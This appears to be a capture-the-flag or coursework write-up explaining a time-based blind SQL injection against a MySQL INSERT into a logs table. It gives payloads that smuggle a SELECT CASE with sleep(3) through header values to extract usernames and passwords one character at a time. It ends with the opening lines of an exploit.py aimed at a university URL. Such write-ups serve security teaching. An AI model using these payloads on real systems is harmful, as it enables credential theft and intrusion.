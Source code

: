 <del>Do injections via the `SELECT ... ` query </del> : Failed because we can only escape one single quote, the query are invalid to be executed.

<del>Insert our own `username` and `password` into `users` table</del> : Failed because MySQL doesn't support inserting into 2 tables in one query.

Use `time based blind sql injection` : I want to guess the content of the `users` table. It can be done by blind sql injection. However, there is no sign for me about whether the result of a query is successful or not. This makes the usual blind sql injection fail. Therefore, I googled and found the time based one working!

**working on time based blind sql injection**

We need a SELECT to get the username and password in one query.
```sql
SELECT concat(username, 0x3a, password) FROM users LIMIT n, 1
```
It is blind sql injection, so we have to guess every character of every record, using the ascii value. The answer of the following condition, (the ascii value of the `i th` character of the `n th` record) > `j` , is either true or false.
```sql
ascii(substring((SELECT concat(username, 0x3a, password) FROM users LIMIT n, 1), i, 1)) > j
```
`SELECT CASE` is a if, then, else statement in MySQL.
```sql
SELECT CASE WHEN {condition} THEN {expression} ELSE {expression} END
```
It is used in time based sql injection. For example, in the following case, if the condition is true, then return the value of {expression}, else, sleep for 3 seconds.
```sql
SELECT CASE WHEN {condition} THEN {expression} ELSE sleep(3) END
```
Now we have a condition and `SELECT CASE`, let's combine them together.
```sql
SELECT CASE WHEN (ascii(substring((SELECT concat(username, 0x3a, password) FROM users LIMIT n, 1), i, 1)) > j) THEN 9898 ELSE sleep(3) END
```
Since we only have
```sql
INSERT INTO logs VALUES('\', ' , 1) #\')
```
Replace the `1` with our `SELECT CASE`
```sql
INSERT INTO logs VALUES('\', ' , SELECT CASE WHEN (ascii(substring((SELECT concat(username, 0x3a, password) FROM users LIMIT n, 1), i, 1)) > j) THEN 9898 ELSE sleep(3) END) #\')
```
To construct the above query, we need
```php
$ip = "\\"
$ua = ", SELECT CASE WHEN (ascii(substring((SELECT concat(username, 0x3a, password) FROM users LIMIT n, 1), i, 1)) > j) THEN 9898 ELSE sleep(3) END ) #\\"
```
Here is my code : **exploit.py**
```python
import requests
import hashlib
import time
import sys

url = "http://www.csie.ntu.edu.tw/~b99902063/sql.php"
payload = {
        'username'  : 'ken' ,
        'password'  : '123'
}

waiting_time = 3

table_names = []
table_index = 0
```